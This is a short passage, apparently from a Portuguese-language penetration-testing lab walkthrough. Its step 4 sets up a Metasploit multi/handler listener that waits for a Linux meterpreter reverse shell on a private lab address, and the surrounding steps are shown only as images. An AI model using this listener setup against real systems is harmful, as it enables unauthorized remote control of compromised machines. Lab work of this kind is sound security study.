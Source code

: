 Passo 3.
<img src="images/q_7.3.png" align="center" height=auto width=100%>

Passo 4.
```bash
msfconsole

use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
set LHOST 192.168.56.101
set LPORT 4444
run
```
<img src="images/q_7.4.png" align="center" height=auto width=100%>
